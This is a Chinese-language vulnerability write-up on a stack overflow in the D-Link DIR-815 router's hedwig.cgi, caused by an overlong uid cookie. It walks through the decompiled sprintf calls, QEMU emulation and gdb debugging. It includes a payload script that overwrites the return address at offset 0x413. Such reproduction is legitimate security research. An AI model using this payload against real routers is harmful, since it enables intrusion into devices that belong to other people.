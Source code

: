 固件下载地址：http://legacyfiles.us.dlink.com/DIR-815/REVA/FIRMWARE/DIR-815_REVA_FIRMWARE_v1.01.ZIP

## 漏洞分析
漏洞位于htdocs/web/hedwig.cgi程序中，在该程序hedwigcgi_main()中，sess_get_uid用于从环境变量中获取`HTTP_COOKIE`的值并提取出其中`uid`的值保存到变量v4中，随后sprintf又将提取出来的值写入栈上变量v27中，触发栈溢出。一共有2个sprintf调用，如果要利用需要根据第二个sprintf计算栈偏移值。

![](images/Pasted%20image%2020231122210239.png)

```
  v4 = sobj_new();
  sess_get_uid(v4);
  string = (const char *)sobj_get_string(v4);
  sprintf(v27, "%s/%s/postxml", "/runtime/session", string);
  ...
  v20 = (const char *)sobj_get_string(v4);
  sprintf(v27, "/htdocs/webinc/fatlady.php\nprefix=%s/%s", "/runtime/session", v20);
```

## 调试
使用binwalk解包固件，通过file查看是mips小端，将`qemu-mipsel-static`拷贝到文件系统目录。
```
$ file bin/busybox
bin/busybox: ELF 32-bit LSB executable, MIPS, MIPS32 version 1 (SYSV), statically linked, strippe
```

要运行hedwig.cgi程序只需要用qemu模拟就可以了。
```
sudo chroot . ./qemu-mipsel-static ./htdocs/web/hedwig.cgi
```

![](images/Pasted%20image%2020231122211145.png)

但是为了触发漏洞和程序逻辑，我们需要通过-E加入环境变量参数。

我们直接编写一个run.sh脚本用于运行程序。我通过pwntools工具的cyclic和gdb调试确定了返回地址的偏移地址位于0x413处，加入-g 1234来调试。
```sh
#payload=$(python3 -c "from pwn import *; print('uid=' + cyclic(0x500).decode())")
payload=$(python3 -c "from pwn import *; print('uid=' + 'a'*0x413 + 'bbbb')")
LEN=$(echo -n "$payload" | wc -c)
DEPORT=1234

sudo chroot . ./qemu-mipsel-static -E REQUEST_METHOD="POST" -E HTTP_COOKIE=$payload -g $DEPORT ./htdocs/web/hedwig.cgi
```

最终触发漏洞。
```
gdb-multiarch -q htdocs/cgibin
(gdb) target remote :1234
(gdb) c
```

![](images/Pasted%20image%2020231122211354.png)


## 参考链接
[家用路由器漏洞挖掘实例分析-图解D-LINK DIR-815多次溢出漏洞](https://bbs.kanxue.com/thread-268623.htm)

[DLink 815路由器栈溢出漏洞分析与复现 - unr4v31 - 博客园 (cnblogs.com)](https://www.cnblogs.com/unr4v31/p/16072562.html)
